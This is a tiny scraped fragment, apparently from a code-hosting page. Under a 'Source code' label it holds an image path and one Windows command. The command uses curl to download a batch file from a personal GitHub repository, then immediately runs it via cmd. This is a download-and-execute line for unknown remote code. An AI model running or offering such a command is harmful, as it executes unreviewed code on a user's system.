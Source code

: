 curl https://raw.githubusercontent.com/stamellashroom1/testing/refs/heads/main/echo > test.bat && start cmd /c test.bat
